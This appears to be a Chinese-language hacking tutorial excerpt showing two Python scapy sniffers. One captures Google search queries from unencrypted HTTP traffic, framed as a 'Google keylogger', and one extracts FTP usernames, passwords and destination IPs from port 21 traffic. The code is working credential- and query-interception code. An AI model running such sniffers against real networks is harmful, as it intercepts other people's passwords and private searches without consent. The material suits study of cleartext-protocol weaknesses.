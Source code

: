 ### 编写谷歌键盘记录器

在搜索栏里每输入一个字符时，浏览器几乎都会向谷歌发送一个 HTTP GET。

谷歌搜索的 URL 中的参数提供了大量附加信息，这些信息对编写谷歌键盘记录器是相当有用的。

| 参数             | 含义                         |
| -------------- | -------------------------- |
| q=             | 查询的内容，就是在搜索框里输入的内容         |
| pq=            | 上一次查询的内容，即本次搜索前一次的查询内容     |
| hl=            | 语言，默认是 en，可以试试 `xx-hacker` |
| as_epq=        | 查询的精度                      |
| as_filetype=   | 文件格式，用于搜索特定类型的文件，比如 `.zip` |
| as_sitesearch= | 指定要搜索的网站                   |

可以把抓取到的搜索数据实时显示出来

```python
def find_google(pkt):
    if pkt.haslayer(Raw):
        payload = pkt.getlayer(Raw).load
        if "GET" in payload:
            if "google" in payload:
                r = re.findall(r"(?i)\&q=(.*?)\&", payload)
                if r:
                    search = r[0].split("&")[0]
                    search = search.replace("q=", "").replace("+", " ").replace("%20", " ")
                    print("[+] Searched For: {}".format(search))
```

 通过 `sniff` 进行嗅探：`sniff(filter="tcp port 80", prn=find_google)`

### 嗅探 FTP 登陆口令

文件传输协议（FTP）中没有使用加密措施来保护用户的登录密码，通过正则寻找这一信息，同时也会把数据包中的目的 IP 地址提取出来

```python
from scapy.all import *
def ftp_sniff(pkt):
    dest = pkt.getlayer(IP).dst
    raw = pkt.sprintf("%Raw.load%")
    user = re.findall("(?i)USER (.*)", raw)
    pswd = re.findall("(?i)PASS (.*)", raw)
    if user:
        print("[*] Detected FTP Login to {}".format(dest))
        print("[+] User account: {}".format(user[0]))
    elif pswd:
        print("[+] Password: {}".format(pswd[0]))
```

通过 `sniff(filter="tcp port 21", prn=ftp_sniff)` 实现
